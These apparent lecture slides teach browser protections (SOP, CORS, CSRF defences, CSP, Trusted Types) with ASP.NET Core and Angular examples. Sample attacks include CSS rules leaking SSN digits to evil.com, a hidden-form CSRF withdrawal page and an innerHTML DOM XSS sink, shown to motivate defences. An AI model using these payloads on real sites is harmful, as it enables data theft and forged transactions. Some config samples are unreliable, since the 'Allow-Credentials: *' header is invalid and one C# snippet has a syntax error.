



# Browser Security Protections

---

### Goals
* Understand the evolution of browser security protections
* Learn how SOP, CORS, CSP, and Trusted Types work together
* Recognize the shift from platform vulnerabilities to configuration responsibilities


---

## Browser Security Ecosystem

---

### Evolution of Browser Security



---

### The Early Web: 2005

* Browsers had minimal cross-site protections
* Same Origin Policy existed but was basic
* No Content Security Policy
* No built-in XSS mitigations
* Security was mostly an afterthought
* Ecosystem-level vulnerabilities were common

---

### [Samy Worm](https://en.wikipedia.org/wiki/Samy_(computer_worm)) (2005)

* First major self-propagating XSS worm
* Infected over 1 million MySpace profiles in 20 hours
* Exploited lack of input sanitization and browser protections
* Payload: Added "Samy is my hero" to profiles and spread to friends
* **Lesson:** Browser ecosystem needed defense-in-depth protections

---

### Modern Browser Protections

* **Same Origin Policy** - Isolates different origins from each other
* **CORS** - Controlled sharing across origins
* **Content Security Policy** - Restricts resource loading and script execution
* **Trusted Types** - Prevents DOM-based XSS at the API level
* **Other:** SRI, X-Frame-Options, HTTPS enforcement

---

### The Responsibility Shift

**Then (2005):**
* Browser vulnerabilities enabled attacks
* Platform-level security holes
* Limited developer controls

**Now:**
* Browsers provide robust protections
* **Engineers must configure them correctly**
* Misconfiguration is the vulnerability
* Security is our job, not just the browser's

---

## Same Origin Policy


---

### SOP Defined
* Browser-based security mechanism
* Restricts a script from one 'origin' getting resources from another

<div style="transform: scale(1.35); transform-origin: top center; margin-left: 10em;">


</div>


---

### What's an Origin?
1. Domain
2. Protocol 
3. Port

#### Remember: SOP = DPP

---

### Why SOP?
* Helps prevent 
  * CSRF
  * DDOS
* For the good of the ecosystem


---

### SOP Isn't Perfect
* Tacked on after the fact
* Origin can be spoofed


---


## Cross-Origin Resource Sharing

---

### It's Good to Share When
* You want a 3rd party ecosystem
  * e.g. Twitter, Facebook, etc
* You're OCD and want 2 web servers for your app:
  1. For your SPA
  2. For your API


---

### What's [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)?

* Browser mechanism for controlled cross-origin resource sharing
* Server opts-in via HTTP headers to allow specific origins
* Enables legitimate cross-origin requests (APIs, CDNs, widgets)
* Enforced by browsers, not servers
* **Not authentication or authorization** - separate security concern


---

### CORS is Browser Based
* It's rules of engagement set by the **API**
  - Usually one policy per endpoint
* Respected by browsers
  - Your javascript doesn't have to care
* A determined hacker 
  - Can modify his browser's source code
  - Or just use `curl` 


---

### What requests use CORS?
#### CORS
* Requests from `XMLHttpRequest`, `fetch`
* GET requests for
  - Web Fonts 
  - WebGL textures
  - Images/video frames drawn to a canvas using drawImage().
  - CSS Shapes from images.
#### Non-CORS
* Form POSTs
* Resource fetch via html attributes e.g. ``

---

### Simple Request: GET
```http
GET /resources/public-data/ HTTP/1.1
Host: bar.other
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Connection: keep-alive
Origin: https://foo.example

```


---

### Response
```http {4}
HTTP/1.1 200 OK
Date: Mon, 01 Dec 2008 00:23:53 GMT
Server: Apache/2
Access-Control-Allow-Origin: *
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: application/xml

{}
```


---

### Access Control Headers
##### From the API:
```http
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Credentials: *
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Max-Age: 86400
```

##### For preflight:
```http
Access-Control-Request-Headers: Content-Type, Authorization
Access-Control-Request-Method: POST
Origin: https://foo.example
```

**Note:** With JWT bearer tokens, every authenticated GET triggers preflight. Higher `Max-Age` values (86400+ seconds) cache preflight responses and improve performance.

---

### HTTP Verbs _(Review)_
* GET 
* PUT
* POST
* DELETE
* PATCH
* OPTIONS


---

### Vocabulary _(Review)_
* What does _safe_ mean?
* _Idempotent_? 


---

### [Pre-Flight](https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request)
* Affects 
  - Potentially dangerous verbs `DELETE`, `PUT`, `POST`, etc.
  - `GET` requests with custom headers
* Preflighted requests:
  1. Send an HTTP OPTIONS request 
  2. Examine the access control headers
  3. Proceed if possible


---

### Pre-Flight Flow
<div style="transform: scale(1.45); transform-origin: top center; margin-left: 15rem;">

</div>


---

### Custom Headers Trigger Preflight


* `Authorization: Bearer {token}` is a custom header
* Even GET requests require preflight with custom headers
* Browser sends OPTIONS first to check permissions
* Adds latency to every authenticated request
* `Access-Control-Max-Age` becomes critical for performance


---

## [ASP.NET Core Configuration](https://learn.microsoft.com/en-us/aspnet/core/security/cors)


---

### ASP.NET Core Review 
* What's [Middleware](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/middleware/)?
* What's Program.cs?


---

### CORS Configuration in Program.cs

```csharp title='Program.cs' {3-11, 16}
var builder = WebApplication.CreateBuilder(args);

builder.Services.AddCors(options => {
    options.AddDefaultPolicy(policy => 
        policy.AllowAnyOrigin().AllowAnyHeader();
    );

    options.AddPolicy("BetaTesterPolicy", policy => 
        policy.WithOrigins("http://example.com").AllowAnyHeader();
    );
});

var app = builder.Build();

app.UseRouting();
app.UseCors();

app.MapControllers();
app.Run();
```

---

### Why Name Policies?
* Some parts of the API are public
* Some for internal use


---

### Policy Options
* Allowed origins
* Allowed HTTP methods
* Allowed request headers
* Allowed response headers
* Credentials in cross-origin requests
* Preflight expiration time


---

### Alternative: CORS Attributes
* Apply [EnableCorsAttribute](https://learn.microsoft.com/en-us/dotnet/api/microsoft.aspnetcore.cors.enablecorsattribute) to controllers/actions
* More flexibility per endpoint


---

### Attribute Example

```csharp title='EnfarculatorController.cs' {5,10}
[Route("api/[controller]")]
[ApiController]
public class EnfarculatorController : ControllerBase
{
    [EnableCors]    
    [HttpGet("{id}")]
    public ActionResult<string> Get(int id)
      => "Grapefruit";

    [EnableCors("BetaTesterPolicy")]
    [HttpGet]
    public ActionResult<IEnumerable<string>> Get() 
      => new string[] { "Apple", "Orange" };
}

```


---

### CORS Configuration Patterns

**BFF + SPA Pattern:**
```csharp
options.AddPolicy("SpaPolicy", builder => {
    builder.WithOrigins("https://myapp.example.com")
           .AllowAnyHeader()
           .AllowAnyMethod()
           .AllowCredentials();
});
```

* Specific origin (your SPA domain)
* Any header (supports Authorization, custom headers)
* Any method (GET, POST, PUT, DELETE)
* Credentials allowed (cookies, auth headers)


---

### CORS with [Minimal API Groups](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis/route-handlers#route-groups)

```csharp title='SnakeEndpoints.cs' {5}
public static void MapSnakeEndpoints(this WebApplication app){

    var snakesGroup = app.MapGroup("/snakes")
        .RequireAuthorization()
        .RequireCors("SpaPolicy")
        .WithTags("Snakes");

    snakesGroup.MapGet("/", GetSnakes)
        .WithName("GetSnakes")
        .Produces<IEnumerable<Snake>>(StatusCodes.Status200OK)
        .WithDescription("Gets snakes.");
}
```

* Apply CORS policy to entire [endpoint group](https://learn.microsoft.com/en-us/aspnet/core/security/cors#cors-with-named-policy-and-middleware)
* Cleaner than per-endpoint attributes


---

### CORS Gotchas

* `Access-Control-Allow-Origin: *` can't be used with credentials
* Wildcards in origins require `*` alone, not `*.example.com`
* **CORS is not authorization** - attackers bypass with curl/Postman
* Preflight cache (`Max-Age`) can mask configuration changes
* Middleware order matters - `UseCors()` must come before `UseAuthorization()`


---


## Cross-Site Request Forgery (CSRF)

---

### What's [CSRF](https://owasp.org/www-community/attacks/csrf)?

* Attacker's site causes a browser to send state-changing requests to another site
* Works when authentication is cookie-based and requests lack CSRF protection
* Browser automatically attaches cookies, even across sites, if not restricted
* Historically critical for banking and admin portals
* Less common today: `SameSite` cookies and token-based auth reduce the risk

---

### Classic Form POST Attack

* Victim is logged in to `example.com`
* Attacker hosts page on `example.badactorstudio.com`
* Visiting attacker page auto-submits a hidden form using victim's cookies

```html title='index.html'
<h1>You Are a Winner!</h1>
<form action="https://example.com/api/account" method="post">
  <input type="hidden" name="Transaction" value="withdraw" />
  <input type="hidden" name="Amount" value="1000000" />
  <input type="submit" value="Click Me" />
</form>
```

---

### Mitigations Over Time

* Anti-forgery tokens: per-request secrets that attackers cannot read cross-site
* CORS: protects XHR/fetch with credentials, but does not stop simple form POSTs
* `SameSite` cookie attribute: modern browsers default to `Lax`, blocking most cross-site POSTs
* Modern SPAs: use Bearer tokens in `Authorization` header instead of cookies
* Legacy apps mixing cookies and APIs need explicit CSRF defenses

---

### Anti-Forgery in ASP.NET Core

```csharp
public void ConfigureServices(IServiceCollection services){
    services.AddControllersWithViews(options => {
        options.Filters.Add(new AutoValidateAntiforgeryTokenAttribute());
    });
}
```

* Framework feature automatically validates anti-forgery tokens on unsafe HTTP verbs
* Protects traditional server-rendered forms from CSRF attacks

---


## Content Security Policy

---

### What's [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)?

* Browser security standard that helps prevent XSS and data injection attacks
* Allows you to specify which sources of content are trusted
* Works by restricting where scripts, styles, images, and other resources can load from
* Another layer in defense-in-depth strategy

---

### Defense in Depth

* CSP doesn't replace input validation or output encoding
* It's a **backstop** when other protections fail
* Helps limit damage from zero-day vulnerabilities in dependencies
* Reduces attack surface even if code has bugs

---

### What CSP Protects Against

* **Cross-Site Scripting (XSS)** attacks
* Unauthorized inline script execution
* Malicious resource loading from untrusted domains
* Clickjacking via framing restrictions
* Mixed content vulnerabilities

---

### [CSP Directives: The Menu](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)

| Directive | Controls |
|-----------|----------|
| **default-src** | Fallback for all resource types |
| **script-src** | JavaScript sources |
| **style-src** | CSS sources |
| **img-src** | Image sources |
| **connect-src** | Fetch, XHR, WebSocket targets |
| **font-src** | Font sources |

---

### Why Restrict Images and Fonts?

* **Data exfiltration** - Attacker can leak sensitive data via URL parameters
* Injected code loads: ``
* Works even if `script-src` is locked down
* Font files can be used similarly for timing attacks and fingerprinting
* Every resource type is a potential side channel

---

### CSS Attribute Selector Attack

```css
input[name="ssn"][value^="0"] { background: url(https://evil.com/log?digit=0); }
input[name="ssn"][value^="1"] { background: url(https://evil.com/log?digit=1); }
input[name="ssn"][value^="2"] { background: url(https://evil.com/log?digit=2); }
```

* Attacker injects CSS, not JavaScript
* Leaks form values character by character
* `img-src` and `style-src` restrictions block this

---

### CSP Directive Values

* `'self'` - Same origin only
* `'none'` - Block all sources
* `'unsafe-inline'` - Allow inline scripts/styles (defeats much of CSP's purpose)
* `'unsafe-eval'` - Allow `eval()` and similar (risky)
* `https://trusted.com` - Specific domain
* `'nonce-...'` or `'sha256-...'` - Cryptographic verification

---

### Header-Based CSP

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com; style-src 'self' 'unsafe-inline'
```

* Set via HTTP response header
* Full control over all directives
* Can report violations to an endpoint via `report-uri` or `report-to`
* Supports `Content-Security-Policy-Report-Only` for testing

---

### Meta Tag CSP

```html title='index.html'
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' https://trusted-cdn.com">
```

* Specified in HTML `<meta>` tag in `<head>`
* **Limitations:** No `report-uri`, `frame-ancestors`, or `sandbox` directives
* Useful when you can't control server headers e.g. static sites
* Applies per-page rather than server-wide

---

### Header vs Meta Comparison

| Feature                     | Header-Based | Meta Tag  |
|-----------------------------|--------------|---------- |
| **Full directive support**  | ✅           | Limited   |
| **Violation reporting**     | ✅           | ❌       |
| **Report-only mode**        | ✅           | ❌       |
| **Server control required** | ✅           | ❌       |
| **Per-page flexibility**    | With config   | Built-in |

**Prefer headers** when possible for maximum protection

---

### CSP in Angular

* Configure in `angular.json` under `architect.build.options`:

```json title='angular.json'
"headers": {
  "Content-Security-Policy": "default-src 'self'; script-src 'self'"
}
```

* Or use server middleware in Node/Express/.NET
* Angular CLI dev server supports CSP headers via proxy config
* Consider [nonce-based CSP](https://angular.io/guide/security#content-security-policy) for inline scripts

---

### CSP: Strengths and Limitations

**Strengths:**
* Powerful XSS mitigation when properly configured
* Reduces impact of compromised dependencies
* Report-only mode enables safe testing

**Weaknesses:**
* Complex to configure correctly
* Can break third-party widgets and analytics
* Requires ongoing maintenance as dependencies change

**When to use:** Every production web app should have CSP

---


## Trusted Types

---

### What's [Trusted Types](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API)?

* Relatively new browser API (Chrome 83+, Edge 83+)
* Prevents DOM-based XSS by requiring safe values for dangerous operations
* Forces explicit sanitization before inserting content into DOM
* Works at the JavaScript API level, not just HTTP headers
* Part of the defense-in-depth strategy alongside CSP

---

### The Problem: DOM XSS

```javascript title='app.component.ts'
const username = new URLSearchParams(location.search).get('name');
document.getElementById('greeting').innerHTML = `Hello ${username}!`;
```

* User input flows directly into dangerous sink
* `innerHTML`, `eval()`, `document.write()` accept strings
* No built-in enforcement to sanitize first
* Easy to miss during code review

---

### How Trusted Types Works

* Browser rejects strings for dangerous operations
* Only accepts special **Trusted Type** objects
* `TrustedHTML` for `innerHTML`
* `TrustedScript` for `eval()` and `<script>.src`
* `TrustedScriptURL` for script sources
* Forces developers to use policies that sanitize

---

### Creating Trusted Types

```javascript
const policy = trustedTypes.createPolicy('myPolicy', {
  createHTML: (input) => {
    return DOMPurify.sanitize(input);
  }
});

const safeHTML = policy.createHTML(userInput);
element.innerHTML = safeHTML;
```

* Policies define how to create safe values
* Explicit sanitization at policy boundaries
* Centralized security logic

---

### Enforcement via CSP

```http
Content-Security-Policy: require-trusted-types-for 'script'
```

* Trusted Types enabled via CSP directive
* Blocks unsafe assignments to dangerous sinks
* Can specify allowed policy names
* `trusted-types default` restricts which policies can be created

---

### Trusted Types in Angular

* Angular 12+ has built-in Trusted Types support
* Enable via CSP header with `require-trusted-types-for 'script'`
* Angular's `DomSanitizer` automatically creates compatible policies
* Most Angular templates are already safe due to automatic escaping
* Watch for `bypassSecurityTrust*` methods

---

### CSP + Trusted Types: Defense in Depth

| Protection | CSP Alone | + Trusted Types |
|------------|-----------|-----------------|
| **Inline script blocks** | Prevented | Prevented |
| **External script sources** | Controlled | Controlled |
| **DOM XSS via innerHTML** | Not prevented | Prevented |
| **eval() abuse** | Controllable | Prevented |

Trusted Types closes gaps that CSP can't fully address

---


